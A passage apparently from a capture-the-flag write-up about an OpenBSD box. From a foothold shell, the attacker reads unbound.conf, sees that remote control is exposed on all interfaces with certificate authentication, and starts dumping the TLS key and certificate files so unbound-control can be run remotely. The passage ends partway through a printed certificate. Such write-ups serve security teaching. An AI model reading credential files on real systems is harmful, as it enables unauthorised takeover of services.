 ```php
        protocol portal
        forward to <5> port 8002
        forward to <6> port 5000 mode source-hash
}
```

To do this we first have to retrieve the configuration file and look for authentication methods. Luckily for us this is in the default place on openbsd.

```php
sm1l3z > read_file /var/unbound/etc/unbound.conf
server:
        interface: 127.0.0.1
        interface: ::1
        access-control: 0.0.0.0/0 refuse
        access-control: 127.0.0.0/8 allow
        access-control: ::0/0 refuse
        access-control: ::1 allow
        hide-identity: yes
        hide-version: yes
        msg-cache-size: 0
        rrset-cache-size: 0
        cache-max-ttl: 0
        cache-max-negative-ttl: 0
        auto-trust-anchor-file: "/var/unbound/db/root.key"
        val-log-level: 2
        aggressive-nsec: yes
        include: "/var/unbound/etc/conf.d/local_zones.conf"

remote-control:
        control-enable: yes
        control-interface: 0.0.0.0
        control-use-cert: yes
        server-key-file: "/var/unbound/etc/tls/unbound_server.key"
        server-cert-file: "/var/unbound/etc/tls/unbound_server.pem"
        control-key-file: "/var/unbound/etc/tls/unbound_control.key"
        control-cert-file: "/var/unbound/etc/tls/unbound_control.pem"
```

We see that authentication happens with a public and private key, so we retrieve all the necessary files to set up `unbound-control` on our machine.

```php
sm1l3z > read_file /var/unbound/etc/tls/unbound_server.pem
-----BEGIN CERTIFICATE-----
MIIDoDCCAggCCQDx3ZJ+FQdNnjANBgkqhkiG9w0BAQsFADASMRAwDgYDVQQDDAd1
bmJvdW5kMB4XDTIxMDExMTA3MDExMFoXDTQwMDkyODA3MDExMFowEjEQMA4GA1UE
AwwHdW5ib3VuZDCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBALaSthKv
1/LXjUfayIL0K3ThP3vs1+PpaPKPiRkj7VYKL3Q3lvHbCEzmjwFxzrYfykbJnrdm
7pgPVGlWbra2ifSfNokVcC/sblub7GXvUKUWbK5Javr7vI8Eljvn9q28ze9FZz6W
1ZojGXSU9M1KU5kslNTnF4sTLcvU9UJGW37Kv/hGqlN8MYFUCM5jOke94rewUuoT
9xw4cveDnMcHwjBlbSQL6R2e7GQWlU/vb1ntDq1nFE3Bu7tK+JD3Ni9Rt7jTfr/u
ezZPuEg/6z1iKtnmXNOCwZGHS5gOdGRQaf4USnjYy7DaSVwXsOQUpZ6tWptolyp9
BrZM3Q1UHG0OZYCNo04i8kL50a9pVggs7Q0TvSqO2KgYMRj78vNzotPE+8FQpj9+
7glV12BQSuh53lNS32WpwTS1yYfvw2sXt/m+BW5Ts6musGj0AANWd6BZAm735qXQ
nt719NzFQsYv0fcFAmbmgXV1X2ZhwZvxJWGDpsyLlNQKjhTWXb4J32hIzwIDAQAB
MA0GCSqGSIb3DQEBCwUAA4IBgQCmHuw7ol3PfJxidmjDkqJtA+Q4OOqgfHHAoq33
pQe2CbQEk50AZMdezxXN0I7ToOkEkXES6BiKDn7FAlOmElCAvYZhVkq7OwgHSECr
tvwiap5exR9W1cFxojz7ufWWpk+2F3RRJhudmaCMlf5KIFMK4BqNt1aHjsM7rshP
jJ3AsELCSgpOVCuc+Jnq+4IzbNNq55oMVq6k5ETsi4TgFew3gJfMEibF5zVbsXMK
A+cpyhRN+XXD0maS+C2BC2a5kGb8jp5otPXDRsJgJWrPb5irGWY9in7w8ZdOMW6v
FcSaLnz9bQ7q93+dbhPFRbjz+QWahvQyw91muwPmkLCB7OLWedha5tfuW1e4WNjt
PCAMbsSgTHsPgrrm0IoK8AfxJht9wE1Dm4XfmXSGgHU6Q7usscoV0dx47m+vmFYZ
Z1faM16lBqfIDDOHm23bIPkO08BH4VaO7HYXlXQY1RGRYH9NJlkR6+lgduK9DkNM
SeJIPkiQql3fH2trxxZ5i4P23Bk=
```